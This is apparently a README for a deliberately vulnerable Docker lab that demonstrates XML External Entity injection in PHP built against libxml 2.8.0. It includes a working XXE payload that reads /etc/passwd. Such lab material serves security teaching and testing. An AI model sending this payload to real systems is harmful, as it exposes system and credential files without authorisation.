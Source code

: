 # PHP Environment XML External Entity Injection Vulnerability (XXE)

Environmental introduction:

- PHP 7.0.30
- libxml 2.8.0

After libxml2.9.0, the external entity is not parsed by default, resulting in the demise of the XXE vulnerability. To demonstrate the XXE vulnerability in the PHP environment, this example will compile libxml2.8.0 into PHP. The PHP version does not affect the use of XXE.

Compile and start the environment with the following command:

```
Docker-compose up -d
```

After the environment starts, you can see phpinfo by visiting `http://your-ip:8080/index.php`, and you can see that the version is 2.8.0 by searching libxml.

The web directory is `./www`, which contains 4 files:

```bash
$ tree .
.
├── dom.php # Example: Parsing a body using DOMDocument
├── index.php
├── SimpleXMLElement.php # Example: Parsing the body using the SimpleXMLElement class
└── simplexml_load_string.php # Example: parse the body using the simpleml_load_string function
```

The `XX.php`, `SimpleXMLElement.php`, `simplexml_load_string.php` can trigger the XXE vulnerability. Please read the code of these three files for the specific output points.

Simple XXE Payload:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

Output:

![](1.png)

For more advanced use, please explore on your own.